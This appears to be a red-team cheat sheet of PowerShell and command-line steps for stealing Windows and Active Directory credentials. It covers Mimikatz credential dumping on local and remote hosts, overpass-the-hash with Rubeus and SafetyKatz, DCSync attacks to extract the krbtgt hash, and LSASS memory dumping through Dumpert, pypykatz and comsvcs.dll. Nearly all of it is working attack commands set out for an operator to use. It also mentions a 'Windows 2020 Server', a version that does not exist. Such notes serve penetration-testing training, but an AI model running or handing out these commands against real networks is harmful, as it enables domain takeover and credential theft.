 >**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).
--- 
 ## Dump credentials on a local machine
```powershell
Invoke-Mimikatz -DumpCreds
```

## Dump credentials on multiple remote machines
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

## OverPass-The-Hash : generate tokens from hashes
```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'

# Invoke-Mimikatz using AES
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# SafetyKatz
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

# The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

# Rubeus.exe
# Below doesn't need elevation
Rubeus.exe asktgt /user:administrator /rc4: /ptt

# Below command needs elevation
Rubeus.exe asktgt /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## DCSync Attack
+ To extract credentials from the DC without code execution on it, we can use DCSync
+ To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain
+ By default, Domain Admins privileges are required to run DCSync
```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

# SafetyKatz
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

---

# Other ways to extract creds from LSASS

## Invoke-Mimikatz
### 1. Dump credentials on a local machine using Mimikatz
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

---

## SafetyKatz & SharpKatz
### 2. Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```powershell
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

### 3. Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality)
```powershell
SharpKatz.exe -Command ekeys
```

---

## Dumpert
### 4. Dump credentials using Dumpert (Direct System Calls and API unhooking)
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

---

## pypykatz
### 5. Using pypykatz (Mimikatz functionality in Python)
```powershell
pypykatz.exe live lsa
```

---

## comsvcs.dll
### 6. Using comsvcs.dll
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

> Now Extract the creds from lsass dump

```powershell
# Run mimikatz
# set the location of the lsass dump
sekurlsa::minidump C:\AD\Tools\lsass.DMP

# get the debug privs
privilege::debug

# now get the ekeys
sekurlsa::ekeys
```

---

## SharpKatz
### 7. Using SharpKatz.exe to do DCSync Attack
```powershell
SharpKatz.exe --Command dcsync --User us\krbtgt --Domain us.techcorp.local --DomainController us-dc.us.techcorp.local
```